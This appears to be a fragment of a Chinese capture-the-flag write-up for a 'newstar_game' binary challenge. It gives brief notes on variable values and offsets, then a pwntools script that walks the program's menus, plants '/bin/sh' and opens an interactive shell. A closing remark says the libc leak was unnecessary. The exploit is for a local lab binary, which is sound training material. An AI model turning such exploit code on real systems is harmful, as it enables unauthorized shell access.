 v6 = 1; v4=2; 输入/bin/sh同时使v6 = 0;

v4 = 1;反复0x16003次,泄露system地址获取libc以及使v7为合适的调用的偏移量

v4 = 3;跳转到最外层循环

v3 = 0x2190

exp：

```
from pwn import *

context(log_level='debug', os='linux', arch='amd64')

io = process('/home/kali/Desktop/newstar_game')
libc = ELF('/home/kali/Desktop/libc/libc-2.31.so')

io.sendafter('请选择你的伙伴'.encode(encoding='utf-8') , b'1\n')
io.sendafter('2.扣2送kfc联名套餐'.encode(encoding='utf-8') , b'2\n')
io.sendafter('你有什么想对肯德基爷爷说的吗?'.encode(encoding='utf-8') , b'/bin/sh\00')

for i in range(0x3):
    io.sendafter('2.扣2送kfc联名套餐'.encode(encoding='utf-8') , b'1\n')

io.sendafter('2.扣2送kfc联名套餐'.encode(encoding='utf-8') , b'3\n')
io.sendafter(b'you are good mihoyo player!',b'8592\n')

io.interactive()
```

根本不需要泄露system的地址，只需要经历一次，把v8改为1就行了，最后只有v7为0x30000时这个偏移恰好在v3（short）的范围内
